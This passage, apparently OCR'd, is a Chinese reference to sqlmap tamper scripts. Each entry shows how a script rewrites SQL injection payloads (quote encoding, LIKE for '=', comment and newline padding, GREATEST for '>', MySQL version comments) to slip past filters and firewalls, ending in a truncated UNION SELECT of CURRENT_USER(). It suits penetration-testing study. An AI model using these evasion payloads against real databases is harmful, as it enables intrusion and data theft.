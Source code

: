 ```
脚本名：apostrophemask.py
作用：用 utf8 代替引号
例子：
("1 AND '1'='1")
'1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'
要求：
all
```
```
脚本名：equaltolike.py
作用：like 代替等号
例子:
SELECT ·FROM users WHERE id=1
SELECT ·FROM users WHERE id LIKE 1
要求:
·Microsoft SQL Server 2005
·MySQL 4, 5.0 and 5.5
```
```
脚本名：space2dash.py
作用：绕过过滤‘=’替换空格字符（”），（’–‘）后跟一个破折号注释，一个随机字符串和一个新行（’n’）
例子:
('1 AND 9227=9227')
'1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'
要求:
·MSSQL
·SQLite
```
```
脚本名：greatest.py
作用：绕过过滤’>’,用GREATEST替换大于号。
例子:
('1 AND A > B')
'1 AND GREATEST(A,B+1)=A'
要求：
·MySQL 4, 5.0 and 5.5
·Oracle 10g
·PostgreSQL 8.3, 8.4, 9.0
```
脚本名：
space2hash.py
作用：空格替换为#号随机字符串以及换行符
例子:
1 AND 9227=9227
1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227
要求:
·MySQL 4.0, 5.0
```
```
脚本名：apostrophenullencode.py
作用：绕过过滤双引号，替换字符和双引号。
例子:
tamper("1 AND '1'='1")
'1 AND %00%271%00%27=%00%271'
要求:
·MySQL 4, 5.0 and 5.5
·Oracle 10g
·PostgreSQL 8.3, 8.4, 9.0
```
```
脚本名：halfversionedmorekeywords.py
作用：当数据库为mysql时绕过防火墙，每个关键字之前添加mysql版本评论
例子:
("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")